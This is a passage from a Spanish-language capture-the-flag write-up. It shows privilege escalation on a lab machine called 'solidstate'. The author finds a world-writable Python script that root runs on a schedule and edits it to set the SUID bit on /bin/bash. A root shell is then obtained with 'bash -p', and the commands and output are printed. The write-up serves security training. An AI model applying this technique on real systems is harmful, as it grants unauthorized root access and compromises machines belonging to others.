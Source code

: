 ```
Draining file system events due to startup...
done
2024/08/02 13:24:01 CMD: UID=0     PID=8621   | python /opt/tmp.py 
2024/08/02 13:24:01 CMD: UID=0     PID=8622   | sh -c rm -r /tmp/*  
2024/08/02 13:24:01 CMD: UID=0     PID=8623   | sh -c rm -r /tmp/*  
```

Podemos `modificar` el `archivo` para que nos `spawnee` una `shell`

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -l
total 8
drwxr-xr-x 11 root root 4096 Apr 26  2021 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py 
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

`Modificamos` el archivo `tmp.py` para que le de permisos `SUID` a la `bash`

```
#!/usr/bin/env python
import os
import sys
try:
     os.system('chmod u+s /bin/bash')
except:
     sys.exit()
```

`Ejecutamos` este `comando` para que `cada segundo` nos `indique` el `estado` de la `bash`

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ watch -n 1 -c -x ls -l /bin/bash
Every 1.0s: ls -l /bin/bash                                                                                                                        solidstate: Fri Aug  2 13:37:47 2024
-rwsr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
```

Nos `convertimos` en usuario `root`

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ bash -p
bash-4.4# whoami
root
```
